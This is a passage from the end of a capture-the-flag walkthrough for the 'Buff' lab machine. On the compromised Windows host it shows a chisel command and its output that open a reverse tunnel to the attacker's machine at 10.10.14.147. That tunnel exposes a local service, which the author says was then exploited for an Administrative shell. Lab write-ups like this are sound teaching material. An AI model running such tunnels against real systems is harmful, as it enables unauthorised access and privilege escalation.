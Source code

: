 
#### On the Windows Machine:

```
C:\xampp\htdocs\gym\upload>chisel-x64.exe client 10.10.14.147:8080 R:8888:127.0.0.1:8888
chisel-x64.exe client 10.10.14.147:8080 R:8888:127.0.0.1:8888
2020/09/11 14:21:49 client: Connecting to ws://10.10.14.147:8080
2020/09/11 14:21:50 client: Fingerprint e4:fa:3f:c1:be:b1:b0:1d:a2:dc:8c:91:91:20:3d:ef
2020/09/11 14:21:51 client: Connected (Latency 257.7596ms)
```

Running the exploit provided us with an Administrative shell, the output of which is shown in the screenshot below:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Buff/img4.png"  style="width: 75%" />
</p>

That's the box! I hope that the walkthrough helped someone. If you found it interesting at all or if you think it was missing some crucial information, please reach out to me so that I can continue improving as I create more posts.